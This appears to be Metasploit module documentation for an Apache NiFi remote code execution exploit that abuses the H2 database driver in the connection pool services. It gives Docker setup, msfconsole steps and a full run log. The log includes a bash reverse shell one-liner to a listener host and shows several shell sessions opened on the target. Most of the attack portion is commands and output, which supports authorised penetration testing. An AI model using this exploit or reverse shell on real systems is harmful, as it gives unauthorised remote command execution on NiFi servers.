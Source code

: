 ## Vulnerable Application

The DBCPConnectionPool and HikariCPConnectionPool Controller Services in
Apache NiFi 0.0.2 through 1.21.0 allow an authenticated and authorized user
to configure a Database URL with the H2 driver that enables custom code execution.
This exploit will create a new ExecuteSQL process, connect it to a DB Connection
Pool, and create a new H2 based connection.  The connection is able to create
a new memory based h2 database on the fly, with a code execution inlined that
executes when the H2 connection, and process are started.

This exploit will result in several shells (5-7).
Successfully tested against Apache nifi 1.16.0 through 1.21.0.

### Vulnerable Docker Images

Docker images are available, and exploitable in the default configuration.

```
docker run -p 8443:8443 apache/nifi:1.20.0
```

After the image runs for a minute or two, you'll need to grab a set of credentials
by running grep against the logs:

```
docker logs [container_id] | grep Generated
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/apache_nifi_h2_rce `
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `set rhosts [ip]`
1. Do: `set lhost [ip]`
1. Do: `run`
1. You should get a shell.

## Options

### DELAY

The delay time before stopping and deleting the processor and DB connection pool. Defaults to `15`

## Scenarios

### Nifi 1.20.0 on Docker

```
msf6 > use exploit/linux/http/apache_nifi_h2_rce 
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/apache_nifi_h2_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(linux/http/apache_nifi_h2_rce) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(linux/http/apache_nifi_h2_rce) > set username 4b6caac4-e1c6-431d-8e63-f014a6541362
username => 4b6caac4-e1c6-431d-8e63-f014a6541362
msf6 exploit(linux/http/apache_nifi_h2_rce) > set password E3ke7kCROjBabztg0acFemg5xk2QiQs1
password => E3ke7kCROjBabztg0acFemg5xk2QiQs1
msf6 exploit(linux/http/apache_nifi_h2_rce) > set verbose true
verbose => true
msf6 exploit(linux/http/apache_nifi_h2_rce) > exploit

[+] bash -c '0<&126-;exec 126<>/dev/tcp/1.1.1.1/4444;sh <&126 >&126 2>&126'
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Apache NiFi instance supports logins and vulnerable version detected: 1.20.0
[+] Retrieved process group: c34bfd91-0189-1000-a1ab-44dda04d471e
[+] Created processor c34ccd20-0189-1000-5ee2-06eb40644237 in process group c34bfd91-0189-1000-a1ab-44dda04d471e
[+] Configured processor c34ccd20-0189-1000-5ee2-06eb40644237
[+] Configured db connection pool rkkIaE (c34cccc4-0189-1000-22c2-9fa3bb57d87b)
[+] Enabling db connection pool
[+] Starting processor
[*] Command shell session 1 opened (1.1.1.1:4444 -> 172.17.0.2:49468) at 2023-08-04 21:25:44 -0400
[*] Waiting 15 seconds before stopping and deleting
[*] Command shell session 2 opened (1.1.1.1:4444 -> 172.17.0.2:49470) at 2023-08-04 21:25:45 -0400
[*] Command shell session 3 opened (1.1.1.1:4444 -> 172.17.0.2:49478) at 2023-08-04 21:25:46 -0400
[*] Command shell session 4 opened (1.1.1.1:4444 -> 172.17.0.2:49488) at 2023-08-04 21:25:49 -0400
[*] Command shell session 6 opened (1.1.1.1:4444 -> 172.17.0.2:54526) at 2023-08-04 21:25:50 -0400
[*] Command shell session 7 opened (1.1.1.1:4444 -> 172.17.0.2:54534) at 2023-08-04 21:25:51 -0400
[+] Stopped and terminated processor c34ccd20-0189-1000-5ee2-06eb40644237
[*] Found newer revision of c34ccd20-0189-1000-5ee2-06eb40644237, attempting to delete version 4
[+] Deleted processor c34ccd20-0189-1000-5ee2-06eb40644237
[+] Disabled db connection pool c34cccc4-0189-1000-22c2-9fa3bb57d87b, sleeping 15 seconds to allow the connection to finish disabling
[*] Found newer revision of c34cccc4-0189-1000-22c2-9fa3bb57d87b, attempting to delete version 1
[*] Found newer revision of c34cccc4-0189-1000-22c2-9fa3bb57d87b, attempting to delete version 2
[*] Found newer revision of c34cccc4-0189-1000-22c2-9fa3bb57d87b, attempting to delete version 3
[*] Found newer revision of c34cccc4-0189-1000-22c2-9fa3bb57d87b, attempting to delete version 4
[+] Deleted db connection pool c34cccc4-0189-1000-22c2-9fa3bb57d87b

id
uid=1000(nifi) gid=1000(nifi) groups=1000(nifi)
uname -a
Linux 06967477694d 6.3.0-kali1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.3.7-1kali1 (2023-06-29) x86_64 x86_64 x86_64 GNU/Linux
```
